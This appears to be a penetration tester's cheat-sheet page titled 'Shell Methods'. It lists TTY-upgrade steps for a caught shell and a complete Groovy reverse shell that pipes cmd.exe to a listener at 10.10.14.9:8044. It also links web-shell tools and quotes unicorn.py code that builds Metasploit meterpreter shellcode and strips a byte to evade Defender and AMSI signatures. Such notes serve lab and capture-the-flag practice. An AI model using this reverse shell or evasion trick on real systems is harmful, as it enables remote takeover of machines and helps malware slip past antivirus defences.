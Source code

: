 # Shell Methods

## TTY Upgrade
### Magic
1. `python -c 'import pty; pty.spawn("/bin/bash")'`
    - alternative: `script -q /dev/null /bin/bash`
2. `Ctrl-Z` # background shell
3. `echo $TERM`
4. `stty -a` # grab rows and columns
5. `stty raw -echo`
6. `fg` # foreground
7. `reset`
8. `export SHELL=bash`
9. `export TERM=xterm-256color`
10. `stty rows $rows columns $cols`

## FwdSh3ll

## Groovy Script Reverse Shell

```
* `String host="10.10.14.9";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket
s=new Socket(host,port);InputStream
pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream
po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();`
```

Source: https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76

## Tools
- https://github.com/SecurityRiskAdvisors/cmd.jsp
- https://github.com/gellin/bantam
- https://github.com/antonioCoco/SharPyShell

## msf

unicorn.py

```
proc = subprocess.Popen("msfvenom -p {0} {1} {2} -t 0 --smallest --platform windows -f c".format(payload, ipaddr, port), stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
# AutoUnhookProcess=true AutoVerifySession=false AutoLoadStdapi=false  AutoSystemInfo=false --smallest
data = proc.communicate()[0]
# If you are reading through the code, you might be scratching your head as to why I replace the first 0xfc (CLD) from the beginning of the Metasploit meterpreter payload. Defender writes signatures here and there for unicorn, and this time they decided to look for 0xfc in the decoded (base64) code through AMSI. Interesting enough in all my testing, we shouldn't need a clear direction flag and the shellcode works fine. If you notice any issues, you can simply just make a variable like $a='0xfc'; at the beginning of the command and add a $a at the beginning of the shellcode which also evades. Easier to just remove if we don't need which makes the payload 4 bytes smaller anyways.
data = data.decode("ascii").replace('"\\xfc', '"', 1)
```